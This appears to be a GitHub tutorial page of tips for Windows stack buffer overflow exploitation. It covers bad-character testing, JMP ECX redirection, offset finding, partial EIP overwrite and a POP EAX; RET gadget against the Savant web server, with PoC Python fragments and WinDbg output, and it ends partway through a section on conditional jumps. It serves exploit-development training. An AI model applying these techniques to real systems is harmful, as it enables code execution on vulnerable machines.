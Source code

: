 # Sometimes ...

## Table of Contents

* 1.0 [Not enough space to test bad characters.](#NES-BC)
* 2.0 [Not enough spcae to test shellcode.](#NES-Shellcode)
* 3.0 [Testing Bad Characters doesn't cause a crash.](#NoCrashBC)
* 4.0 [Unique String Cause Another Crash.](#UniqueStringAnotherCrash)
* 5.0 [Partial EIP Overwrite.](#PartialEIPOverwrite)
  * 5.1 [Partial EIP Overwrite - POP EAX; RET.](#PEO-Alternative)
* 6.0 [Conditional Jumps](#ConditionalJumps)

### 1. Not enough space to test bad characters.<a name="NES-BC"></a>

Sometime, if you didn't have enough size to test all the bad characters in one shot.
 
To overcome this, you can comment all the badchars line, and send the maximum badchars size possible at a time.


### 2. Not enough space for the shellcode.<a name="NES-Shellcode"></a>

If you cant find enought space for the shellcode, once you get the JMP ESP instruction, check if any others registers redirect to our buffer (it can be the "A" buffer too).
 
Then if you find it (example ECX), find the JMP ECX opcodes.
 
```bash
┌──(v0lk3n㉿Laptop)-[~/StackOverflow-Basic]
└─$ msf-nasm_shell
nasm > JMP ECX
00000000  FFE1              jmp ecx
```

Complete the address with NOPs instructions to redirect the flow to it.
 
```python
...
size = 2600
shell = <shellcode here>

buffer = b"\x90" * (size - len(shell))
eip = b"\xcf\x60\x40\x12" # 124060cf JMP ESP 
ecx = b"\xff\xe1\x90\x90" # 0xffe1 JMP ECX NOP NOP
nops = b"\x90" * 10
...
```

### 3. Testing Bad Characters doesn't cause a crash.<a name="NoCrashBC"></a>

Sometimes, sending our bunch of bad characters to test them doesn't cause a crash. This is most likely the result of a bad character.

```python
...
    badchars = (
        #b"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c"
        #b"\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19"
        #b"\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26"
        #b"\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33"
        #b"\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        #b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d"
        #b"\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a"
        #b"\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67"
        #b"\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74"
        #b"\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81"
        b"\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e"
        b"\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b"
        b"\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8"
        b"\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5"
        b"\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
        b"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf"
        b"\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc"
        b"\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9"
        b"\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6"
        b"\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
        )
...
```

To identify it, we simply comment the first half of the badchars variables. If we succesfully overwrite the isntruction pointer, this mean that the bad chars isn't in the last half of the bad chars.

Repeat this process, since you found all bad chars including the one that prevent the vulnerable application from crashing.

### 4. Unique String Cause Another Crash.<a name="UniqueStringAnotherCrash"></a>

Sometimes, running our PoC with the Unique Pattern (or other similar situation), cause a different crah.

When it happen, how to find the exact offset of EIP? To overcome this we can split our buffer in two parts.

```python
...
inputBuffer = b"\x41" * 130  
inputBuffer+= b"\x42" * 130
...
```

If the EIP is overwritten by "42424242" that mean the exact offset is present in the second half of our buffer. Split the 42 in two part and repeat the process since finding the exact offset.

### 5. Partial EIP Overwrite.<a name="PartialEIPOverwrite"></a>

Sometimes, we can see that our buffer is null-terminated.

```bash
0:003> dds @esp L4  
01fcea2c 00434343 Savant+0x34343 ## 00434343  
01fcea30 01fcea84  
01fcea34 0041703c Savant+0x1703c  
01fcea38 003d5750
```

When it happen, we can use the Partial EIP overwrite technique.

When our executable is mapped in an address range that start with a null byte, we can use the string null terminator as part of our EIP overwrite to redirect the execution flow to the assembly instruction we choose within the module.

```python
...
inputBuffer = b"\x41" * size  
inputBuffer+= b"\x42\x42\x42"
...
```

Run the PoC and our partial EIP overwrite should be a success.

Now we need to decide where we want to redirect the execution flow to.

#### 5.1 Partial EIP Overwrite - POP EAX; RET.<a name="PEO-Alternative"></a>

When we use Partial EIP overwrite technique, we cannot store any data past the return address, because the added null byte will terminate the string. As the ESP register will not point to our buffer we can't use instructions such as JMP ESP.

Let's say we have this output of crash in our WinDbg console :
```bash
0:003> dds @esp L5  
02efea2c 02effe70  
02efea30 02efea84  
02efea34 0041703c Savant+0x1703c  
02efea38 003d56d0  
02efea3c 003d56d0  
  
0:003> dc poi(@esp+0x04)  
02efea84 00544547 00000000 00000000 00000000 GET.............  
02efea94 00000000 00000000 4141412f 41414141 ......../AAAAAAA  
02efeaa4 41414141 41414141 41414141 41414141 AAAAAAAAAAAAAAAA  
02efeab4 41414141 41414141 41414141 41414141 AAAAAAAAAAAAAAAA  
02efeac4 41414141 41414141 41414141 41414141 AAAAAAAAAAAAAAAA  
02efead4 41414141 41414141 41414141 41414141 AAAAAAAAAAAAAAAA  
02efeae4 41414141 41414141 41414141 41414141 AAAAAAAAAAAAAAAA  
02efeaf4 41414141 41414141 41414141 41414141 AAAAAAAAAAAAAAAA
```

We notice that the second DWORD on the stack points very close to our current stack pointer. It seems to point to the HTTP Method, followed by the rest of the data we sent.

Now we need to find an assembly instruction sequence that will redirect the execution flow to this data.

We can use a POP R32; RET instructions sequence.
- The first POP remove the first DWORD from the stack.
- ESP Point to the memory address that containt our buffer starting with the HTTP GET method.
- The RET instruction should place us right at the beginning of our HTTP method.

As part of the POP instruction, we can place the DWORD that ESP points to into the register of our choice.

Inspect the value that will be popped by the first instruction :
```bash
0:003> dds @esp L5  
02efea2c 02effe70 
02efea30 02efea84  
02efea34 0041703c Savant+0x1703c  
02efea38 003d56d0  
02efea3c 003d56d0  
  
0:003> !teb  
TEB at 7ffdc000  
ExceptionList: 02efff70  
StackBase: 02f00000  
StackLimit: 02efc000
...
```

We see that the first DWORD on the stack points to a memory location that is part of the stack space and is therefore a valid memory address.

If we can find an instruction sequence ike POP EAX; RET we can guarentee that EAX will point to a valid memory address.

Get the opcodes :
```bash
┌──(v0lk3n㉿Laptop)-[~/]
└─$ msf-nasm_shell  
nasm > pop eax  
00000000 58 pop eax  
  
nasm > ret  
00000000 C3 ret
```

Search for the sequence in the app :
```bash
0:003> lm m Savant  
Browse full module list  
start end module name  
00400000 00452000 Savant C (no symbols)  
  
0:004> s -[1]b 00400000 00452000 58 c3  
0x00418674  
0x0041924f  
0x004194f6
...
```

Chose an address without bad chars and update the PoC to add the sequence :
```python
...
inputBuffer = b"\x41" * size  
inputBuffer+= pack("<L", (0x418674)) # 0x00418674 - pop eax; ret
...
```

Running it in our scenario show that after the RET instruction, our instruction pointer points to the first assembly instruction generated by the opcodes of the HTTP GET method.

Because we made sure that EAX would contain a valid memory address, we should be able to execute these instructions without generating an access violation, until we reach our buffer of 0x41 characters.

### 6. Conditional Jumps.<a name="ConditionalJumps"></a>

Another way to place us in our buffer is Conditional Jumps.

Conditonal Jump execute a jump depending on specific conditions, if the condition is true, the condition is followed by a jump, if it false, it continue the execution without jumping.
